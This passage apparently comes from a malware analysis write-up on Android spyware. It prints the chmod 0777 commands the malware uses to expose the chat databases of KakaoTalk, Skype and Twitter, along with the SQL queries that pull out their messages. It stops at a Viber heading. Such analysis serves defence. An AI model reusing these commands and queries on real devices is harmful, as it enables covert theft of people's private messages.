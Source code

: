 ![](https://cybergeeks.tech/wp-content/uploads/2022/08/28-1024x330.jpg)Figure 28

2. Kakao

The database files storing the KakaoTalk chat logs are made accessible to everyone by running the following commands:

*   chmod 0777 /data/data/com.kakao.talk
*   chmod 0777 /data/data/com.kakao.talk/databases
*   chmod 0777 /data/data/com.kakao.talk/databases/KakaoTalk.db
*   chmod 0777 /data/data/com.kakao.talk/databases/KakaoTalk.db-journal

The following SQL query is executed:

*   SELECT chat_logs.id, chat_logs.chat_id, chat_logs.created_at, chat_logs.message, chat_logs.user_id, chat_logs.type, c.members FROM chat_logs JOIN chat_rooms c ON chat_logs.chat_id=c.id

![](https://cybergeeks.tech/wp-content/uploads/2022/08/29-1024x202.jpg)Figure 29

3. Skype

The database files storing the Skype chat messages are made accessible to everyone by running the following commands:

*   chmod 0777 /data/data/com.skype.raider/files/<Directories>
*   chmod 0777 /data/data/com.skype.raider/files/main.db
*   chmod 0777 /data/data/com.skype.raider/files/main.db-journal

The following SQL query is executed:

*   SELECT Messages.id as msg_id, messages.convo_id, from_dispname, messages.author, messages.timestamp, messages.body_xml, conversations.displayname, Messages.dialog_partner FROM Messages LEFT JOIN Conversations ON messages.convo_id = conversations.id

![](https://cybergeeks.tech/wp-content/uploads/2022/08/30-1024x590.jpg)Figure 30

4. Twitter

The database files storing the Twitter messages are made accessible to everyone by running the following commands:

*   chmod 0777 /data/data/com.twitter.android
*   chmod 0777 /data/data/com.twitter.android/databases/*.db

The following SQL query is executed:

*   SELECT messages._id, messages.type, messages.msg_id, messages.content, messages.created, messages.sender_id, messages.recipient_id, messages.thread, s.name, s.username, r.name, r.username FROM messages JOIN users s ON messages.sender_id = s.user_id JOIN users r ON messages.recipient_id = r.user_id

![](https://cybergeeks.tech/wp-content/uploads/2022/08/31-1024x377.jpg)Figure 31

5. Viber

The database files storing the Viber messages are made accessible to everyone by running the following commands:
